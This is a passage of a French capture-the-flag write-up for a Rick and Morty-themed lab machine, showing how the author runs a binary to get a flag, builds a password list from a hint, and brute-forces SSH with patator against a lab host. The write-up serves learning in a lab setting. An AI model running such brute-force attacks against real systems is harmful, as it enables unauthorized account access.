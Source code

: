 À première vue le fichier `NotAFlag.txt` n'est pas un flag. Par contre le
fichier `safe` est deja plus interessant. On se rend compte que c'est un
exécutable. On veut pouvoir faire mumuse avec, alors nous allons le copier
dans notre home puis l'exécuter.

``` sh
cp /home/RickSanchez/RICKS_SAFE/safe /home/Summer/. ; cd ; ./safe
```

![run_safe](/images/run_safe.png)

Ça y est&nbsp;! Vous aussi vous faites la relation avec ce que ce bon vieux
Morty a dit&nbsp;?
Très bien réessayons mais avec comme premiers arguments 131333.

![decrypt_succes](/images/decrypt_succes.png)

On touche au but&nbsp;! En plus d'avoir trouvé  le flag
*{And Awwwaaaaayyyy We Go!}* qui nous fait avoir 20 points en plus et donc
arriver a 100 / 130 points ; il nous explique même comment se connecter avec
RickSanchez en [ssh](https://linux.die.net/man/1/ssh)&nbsp;!

![Wiki_rick](/images/Wiki_rick.png)

Comme Tout le monde le sait le groupe de Rick était `The Flesh Curtains`,
 mais dans le doute on a quand même vérifier sur
 l'internet. Il ne nous reste plus qu'à écrire un
 petit script.

``` sh
cat > generator_mdp.py
import string
grp_name = ("The", "Flesh", "Curtains")
with open("mdp.txt", 'w') as f:
    for l in string.uppercase:
        for d in string.digits:
            for g in grp_name:
                f.write(l + d + g + '\n')
```

Maintenant qu'on a notre script on va générer toutes les combinaisons de
 mot de passe puis essayer de retrouver le mot de passe grâce à
 [patator](https://tools.kali.org/password-attacks/patator).

``` sh
python generator_mdp.py ; patator ssh_login user=RickSanchez host=192.168.1.14 port=22222 password=FILE0 0=mdp.txt -x ignore:mesg='Authentication failed.'
```

Et on a notre mot de passe. Essayons de nous connecter en
[ssh](https://linux.die.net/man/1/ssh) en rentrant ce mot de passe

![ssh_rick_connection](/images/ssh_rick_connection.png)

``` sh
ssh -p 22222 RickSanchez@192.168.1.15
```
